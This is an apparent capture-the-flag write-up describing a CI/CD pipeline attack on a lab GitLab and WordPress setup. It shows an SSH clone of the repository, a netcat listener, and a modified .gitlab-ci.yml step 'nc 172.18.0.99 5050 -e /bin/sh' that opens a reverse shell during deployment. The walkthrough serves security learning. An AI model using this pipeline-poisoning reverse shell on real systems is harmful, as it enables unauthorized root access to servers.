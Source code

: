 We now have a private/public key pair and gitlab. That reminds us that ssh is a valid option for git, so we check GitLab's reference (https://docs.gitlab.com/ee/gitlab-basics/start-using-git.html#clone-with-ssh) and clone the repo into another directory, (elf-ssh).
```bash
git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal elf-ssh
cd elf-ssh
```
### SSH.. I Heard There is a Back CI/CDoor
Having a ssh-git connection gives us more power because we can now run actions, e.g. commits, with accepted credentials as opposed to just reading the code. Let's see what is kicked off by CI/CD when we commit - look at .gitlab.ci.yml (a hidden file at the root of the repo).
```shell
$ cat ~/elf-ssh/.gitlab-ci.yml

stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```
The script looks super interesting - from https://docs.gitlab.com/ee/ci/yaml/gitlab_ci_yaml.htm and https://www.educba.com/linux-rsync/ it looks like deployment kicks off a process to rsync (remote sync) and create a remote shell (-e) with the ssh command, using root (Did someone say ROOT? Red alert!).

We definitely want to sneak into that process running as root, so we will have to modify the yaml.  We set git up to sign our commits with the ssh key, using https://calebhearth.com/sign-git-with-ssh  as reference and test an empty commit.
```git
git config --global user.email "sporx@kringlecon.com"
git config --global user.name "knee-oh"
git commit --allow-empty --message="Testing SSH signing"
```
Our plan of attack is to park a listener on our server, and create a reverse shell during CI/CD deployment that will connect with our listener. At this point, if we haven't yet created another terminal and split the panes, do so (run tmux, then Ctrl-B-""). 

In one of the panes, run Netcat as listener:
```bash
# shows eth0 172.18.0.99 
ifconfig
#run our listener
nc -lvp 5050
```

In the other pane. edit the .gitlab--ci.yml and add a new line to launch netcat with a reverse shell to our listener's address and port:
```yaml
rsync 
-e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html  
- "nc 172.18.0.99 5050 -e /bin/sh"
```
Commit our changes to kick off the deployment. I like to use allow-empty flag in case I mess up and I can re-deploy by touching and recommitting the yml file.
```git
git add .gitlab-ci.yml
git commit --message="Reverse Shell" --allow-empty
git push

```
Now, sit and wait. THIS CAN TAKE A MINUTE OR TWO, but we are rewarded with a message on the listener that a connection was received.